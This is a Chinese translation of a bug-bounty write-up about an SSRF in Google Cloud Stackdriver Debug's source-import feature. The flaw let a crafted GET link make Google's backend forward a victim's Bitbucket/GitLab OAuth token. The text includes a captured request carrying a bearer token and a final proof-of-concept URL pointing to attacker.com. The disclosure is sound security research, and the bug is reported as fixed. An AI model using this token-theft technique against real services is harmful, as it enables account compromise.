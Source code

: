 > 原文链接: https://www.anquanke.com//post/id/195634 


# Google Cloud Platform StackDriver中的SSRF


                                阅读量   
                                **1197935**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者ngailong，文章来源：ngailong.wordpress.com
                                <br>原文地址：[https://ngailong.wordpress.com/2019/12/19/google-vrp-ssrf-in-google-cloud-platform-stackdriver/](https://ngailong.wordpress.com/2019/12/19/google-vrp-ssrf-in-google-cloud-platform-stackdriver/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p4.ssl.qhimg.com/t01588f1d41d08217c3.jpg)](https://p4.ssl.qhimg.com/t01588f1d41d08217c3.jpg)



在阅读[这篇好文](https://sites.google.com/site/testsitehacking/-36k-google-app-engine-rce)后，我对GAE进行了测试。在测试中发现Google Cloud Platform Stackdriver中有一个调试应用，用户可以向该应用导入源代码并进行调试。用户可以从Github，Gitlab或者Bitbucket中导入源代码，并直接在Stackdriver Debug页面中调试代码（[详情见此](https://cloud.google.com/debugger/docs/source-options)）。

如果不正确地集成第三方应用程序会导致问题。我在测试此项功能的过程中就发现了一种特殊的SSRF漏洞。

让我们看看具体是怎么回事：

如果部署了App Engine应用，就可以在[https://console.cloud.google.com/debug](https://console.cloud.google.com/debug)上看到有多种方法来将源代码导入这个调试应用。

[![](https://p0.ssl.qhimg.com/dm/1024_610_/t01d8af623394d97be9.jpg)](https://p0.ssl.qhimg.com/dm/1024_610_/t01d8af623394d97be9.jpg)

单击Bitbucket上的“Select Source”按钮会弹出一个授权页面，问你是否允许Google在该应用中存储oauth令牌。

[![](https://p4.ssl.qhimg.com/dm/1024_836_/t013ef32717a51fccc6.jpg)](https://p4.ssl.qhimg.com/dm/1024_836_/t013ef32717a51fccc6.jpg)

在oauth页面中授权后，用户将被重定向回google，并显示用户的bitbucket/gitlab/github仓库的详细信息

[![](https://p3.ssl.qhimg.com/dm/1024_596_/t01be77943f92e3f57e.jpg)](https://p3.ssl.qhimg.com/dm/1024_596_/t01be77943f92e3f57e.jpg)

到目前为止，一切看起来都挺安全的，redirect_uri不能被篡改，state参数也使用正确。Google实际上是如何获取仓库列表和分支名称的呢？发现是通过两个请求：

第一个是列出来自bitbucket/gitlab/github的仓库

`https//console.cloud.google.com/m/clouddiag/debug/v2/gitlab/listpid=groovy-plating- 250224`

第二个是列出bitbucket/gitlab/github中的分支

`https://console.cloud.google.com/m/clouddiag/debug/v2/gitlab/resourcelist?pid=groovy-plating-250224&amp;url=https%3A%2F%2Fgitlab.com%2Fapi%2Fv4%2Fprojects%2Fprojectid%252Fproject-one%2Frepository%2Ftags`

第二个对应解码为

`https://console.cloud.google.com/m/clouddiag/debug/v2/gitlab/resourcelist?pid=groovy-plating-250224&amp;url=https://gitlab.com/api/v4/projects/projectid/project-one/repository/tags`

可以看到有个url参数，我把[https://gitlab.com替换为https://xxxxxxx.burpcollaborator.net然后尝试判断是否存在SSRF保护。发现竟然是没有的。](https://gitlab.com%E6%9B%BF%E6%8D%A2%E4%B8%BAhttps://xxxxxxx.burpcollaborator.net%E7%84%B6%E5%90%8E%E5%B0%9D%E8%AF%95%E5%88%A4%E6%96%AD%E6%98%AF%E5%90%A6%E5%AD%98%E5%9C%A8SSRF%E4%BF%9D%E6%8A%A4%E3%80%82%E5%8F%91%E7%8E%B0%E7%AB%9F%E7%84%B6%E6%98%AF%E6%B2%A1%E6%9C%89%E7%9A%84%E3%80%82)

更令人惊讶的是，从Burp Collaborator抓到的SSRF请求中还有些其他内容：

```
GET /?per_page=100 HTTP/1.1
Host: evdjffp55g27sbbipe7uqzx1tszin7.burpcollaborator.net
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Bearer 123bcad14289c8a9d3
```

这个请求带有包含Bitbucket access token（访问令牌）的Authorization请求头。考虑到这一点，可以将访问令牌和SSRF请求组合发送。因为如果没有用户访问令牌的话，Google不可能从API endpoint请求到个人信息。

现在已经清楚了解Google是如何和第三方应用程序集成并导入源代码的，以及Google如何从不同的API endpoint获取资源（比如分支名称，标签等）。

于是到了最后一步，利用这个SSRF漏洞将用户访问令牌发送到我们指定的任意url。思路很清晰，请求只是GET而不是POST，如果能够对终端用户实施GET请求的CSRF攻击，就只要构造exp url发给用户，于是Google的这个SSRF就会将受害者的访问令牌发给我们。

[![](https://p1.ssl.qhimg.com/dm/1024_450_/t012f50ca49dccb1ac0.png)](https://p1.ssl.qhimg.com/dm/1024_450_/t012f50ca49dccb1ac0.png)

所幸的是请求中没有CSRF请求头，但是仍然有些请求头可能会阻止我们利用这个漏洞。比如x-pan-versionid、X-Goog-Request-Log-Data和网址为[https://console.cloud.google.com/的Referer。如果在后端检查是否设置了这些请求头，同时验证Referer域名是否和发出SSRF请求前的console.cloud.google.com一致的话，漏洞就没法利用了。幸运的是，后端没有进行验证。](https://console.cloud.google.com/%E7%9A%84Referer%E3%80%82%E5%A6%82%E6%9E%9C%E5%9C%A8%E5%90%8E%E7%AB%AF%E6%A3%80%E6%9F%A5%E6%98%AF%E5%90%A6%E8%AE%BE%E7%BD%AE%E4%BA%86%E8%BF%99%E4%BA%9B%E8%AF%B7%E6%B1%82%E5%A4%B4%EF%BC%8C%E5%90%8C%E6%97%B6%E9%AA%8C%E8%AF%81Referer%E5%9F%9F%E5%90%8D%E6%98%AF%E5%90%A6%E5%92%8C%E5%8F%91%E5%87%BASSRF%E8%AF%B7%E6%B1%82%E5%89%8D%E7%9A%84console.cloud.google.com%E4%B8%80%E8%87%B4%E7%9A%84%E8%AF%9D%EF%BC%8C%E6%BC%8F%E6%B4%9E%E5%B0%B1%E6%B2%A1%E6%B3%95%E5%88%A9%E7%94%A8%E4%BA%86%E3%80%82%E5%B9%B8%E8%BF%90%E7%9A%84%E6%98%AF%EF%BC%8C%E5%90%8E%E7%AB%AF%E6%B2%A1%E6%9C%89%E8%BF%9B%E8%A1%8C%E9%AA%8C%E8%AF%81%E3%80%82)

总而言之，为了利用此漏洞，攻击者需要一台监听HTTPS请求的服务器（比如burp collaborator），然后精心构造url，发送给将bitbucket/gitlab/github连接到Stackdriver的受害者，然后攻击者就能窃取来自Google SSRF请求中的访问令牌。

最终PoC：

`https://console.cloud.google.com/m/clouddiag/debug/v2/gitlab/resourcelist?pid=groovy-plating-250224&amp;url=https%3A%2F%2fattacker.com%2Fstealing.json`

希望你喜欢这篇文章，Google已经修复了这个漏洞，修复也不完美，但我仍然无法绕过验证。有兴趣的话可以看下，要是能够绕过可以向[https://g.co/vulnz](https://g.co/vulnz)报告！
